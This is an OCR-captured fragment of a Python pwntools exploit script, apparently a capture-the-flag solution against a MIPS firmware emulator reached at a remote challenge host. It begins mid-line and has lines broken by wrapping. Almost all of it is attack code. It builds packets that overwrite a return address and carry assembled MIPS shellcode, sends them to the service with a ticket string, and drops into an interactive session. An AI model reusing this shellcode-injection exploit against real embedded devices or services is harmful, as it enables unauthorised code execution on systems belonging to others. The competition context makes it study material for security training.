 ```python
len(crafted)))
checksum = generateChecksum(packet[3:])
p.send(bytes(packet) + bytes([checksum]))
time.sleep(0.2)
sc = ""
sc += shellcraft.mips.mov('$t0', addr)
sc += "j $t0\n"
sc += "nop\n"
crafted = asm(sc)
packet = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + crafted + bytes([0x00]*(53-
len(crafted)))
checksum = generateChecksum(packet[3:])
p.send(bytes(packet) + bytes([checksum]))
#p = gdb.debug('./vmips -o dbemsg -o fpu -o memsize=3000000 -o haltdumpcpu -o
excmsg firmware.rom'.split(" "), '''
#br *0x418E50
#''', env={"FLAG":"HACKSXXXXXX"})
p = remote("elite-poet.satellitesabove.me", 5012)
p.sendlineafter(b'Ticket please:\n',
b'ticket{foxtrot147843hotel2:GJDNvYiXdmM4UkDgJgbn7RhKs6z0GbRlRYcOD1McblofouxiUM
YWj2bpNJ0WvGkf1A}')
#p = process('./vmips -o dbemsg -o fpu -o memsize=3000000 -o haltdumpcpu -o
excmsg firmware.rom', shell=True)
#br *0x418E50
#''')
context.arch = "mips"
context.endian = "little"
time.sleep(2)
# Structure: [Header] + \x00-padding + RET-Addr + \x00-aligment + shellcode +
\x00-padding to total of 64 byte paket
#evilpacket = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + stuff + bytes([0x00]*(53-
len(stuff)))
send_shellcode_memcpy(0xbfc056f4)
p.interactive()
```